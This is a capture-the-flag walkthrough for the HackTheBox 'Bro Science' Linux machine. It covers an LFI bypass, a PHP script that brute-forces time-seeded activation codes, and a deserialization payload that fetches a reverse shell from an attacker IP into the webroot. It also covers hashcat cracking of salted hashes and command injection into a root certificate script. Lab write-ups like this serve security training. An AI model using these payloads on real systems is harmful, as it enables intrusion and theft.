









# Bro Science

# Box Info

|-------|---------|
| Name | Bro Science 💪|
| OS | Linux 🐧 |
| Rating | Medium |


## Enumeration

#### Nmap Scan results

```
80/tcp  open  http     Apache httpd 2.4.54
|_http-title: Did not follow redirect to https://broscience.htb/
|_http-server-header: Apache/2.4.54 (Debian)
443/tcp open  ssl/http Apache httpd 2.4.54 ((Debian))
|_http-title: BroScience : Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.54 (Debian)
| ssl-cert: Subject: commonName=broscience.htb/organizationName=BroScience/countryName=AT
| Not valid before: 2022-07-14T19:48:36
|_Not valid after:  2023-07-14T19:48:36
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
Service Info: Host: broscience.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Apache 2.4
- `broscience.htb` domain name
- HTTP and HTTPS servers

#### Directory fuzzing

used **FFUF** to fuzz for directories
```
login.php               [Status: 200]
index.php               [Status: 200]
user.php                [Status: 200]
comment.php             [Status: 302]
register.php            [Status: 200]
logout.php              [Status: 302]
exercise.php            [Status: 200]
activate.php            [Status: 200]
```

Testing these pages:
- **User.php**


**id** parameter is missing



we can look for different users by changing the value of **id** parameter.

- **activate.php**


We can use this to activate our account to get access.

#### LFI

We can see how these Images are loading:





**Attack detected**!! 

#### Bypassing LFI

After trying different methods one method that worked was **Double URL encoding**.



now we know how to bypass the protection we can look into the source codes of different pages.


**db_connect.php**
```php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";
```

**utils.php**
```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

Function used to generate activation code.

### Generation Activation code

`srand()` function in PHP is used to set seed value for the `rand()` function, which basically generate pseudo random numbers. Setting a particular seed value will generate the same set of numbers again and again. Here seed value is `time()`[ Timestamp in seconds]. 
We can reduce the number of brute-forcing if we can generate the code at simillar time.

So I wrote a naive php code to do some hardwork:
```php
<?php

exec("curl -k https://broscience.htb/register.php -d 'username=Zoro&email=Rzoro@strawhat.pirates&password=passwd&password-confirm=passwd'");

$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
$seed = time();
$url2 = 'https://broscience.htb/activate.php?code=';
for ($num = -10;$num < 10;$num++)
{ 
	srand($seed + $num);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    exec('curl -k https://broscience.htb/activate.php?code='.$activation_code,$o);
}
?>
```

It will simply send a POST request to register a user and then with an error of 10 secs in time, will generate the seed value and send the generated code to activate our account.

---

## Foothold

There is code in **utils.php** which is getting the current theme information from cookies:

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```

This piece of code is directly `unserializing` the base64 decode object, which can be used to gain RCE.

Looking further down in the code,

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

These two classes havn't been used anywhere yet.
We can upload a revershell as `file_get_contents()` can be used to fetch files over http as well.

So we can create our own PHP sericalized object which like this:
```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$obj = new AvatarInterface();
$obj->tmp = 'http://<ip>/revshell.php';
$obj->imgPath = '/var/www/html/revshell.php';
$data = base64_encode(serialize($obj));
echo $data;
?>
```

#### Database

After getting the shell since we got password to database we can look for password from it and try cracking them and we got Salt as well.



Used **hashcat** to crack password like this 
```
<hash>:NaCl
```

and 
```shell
hashcat.exe -m 20 -a 0 password rockyou.txt
```

one of the password got **SSH** into the box.

---

## Priv Esc

Using **Pspy** we can look for processes running by diffent users. Since after running **linpeas** could'nt found much interesting therefore moved to **pspy**.



and we can look for a process run by root to renew SSL certificate.

In this code:
```bash
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";

<.. SNIP ..>

```

If our certificate is about to expire in 86400 seconds( 1 Day ), it will grep the required field from the existing certificate and put in there last echo commands, we can simply just do a command injection like 
```bash
echo somthing; <command>
```
So just create a certificate with expiring time about a day

and add come commad to get revshell or something else while filling the details of any of the prompt
```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 1
```

---

#LFI #BypassWAF #DoubleEncoding #Command-Injection #Pspy #OpenSSL #Deserialization #PHP #HashCat #CrackingPassword #Salt #MD5
